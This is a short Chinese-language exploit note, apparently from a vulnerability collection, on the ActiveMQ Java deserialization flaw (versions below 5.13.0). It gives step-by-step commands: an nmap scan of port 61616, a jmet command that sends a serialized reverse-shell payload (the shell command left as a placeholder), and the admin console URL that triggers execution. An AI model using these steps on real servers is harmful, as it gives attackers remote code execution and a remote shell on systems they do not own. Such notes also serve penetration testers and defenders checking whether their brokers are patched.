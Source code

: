 ## 漏洞概述

该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 影响范围

```http
ActiveMQ < 5.13.0
```

## EXP

1、确定目标开启61616端口

```bash
 nmap -sV -Pn -T4 -sC -p 61616 IP
```

2、发送反弹payload

```bash
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "反弹shell命令" -Yp target-IP 61616
```

3、点击触发Browse event-Message ID ，成功反弹

[http://IP:8161/admin/message.jsp?id=ID&JMSDestination=event](http://ip:8161/admin/message.jsp?id=ID&JMSDestination=event)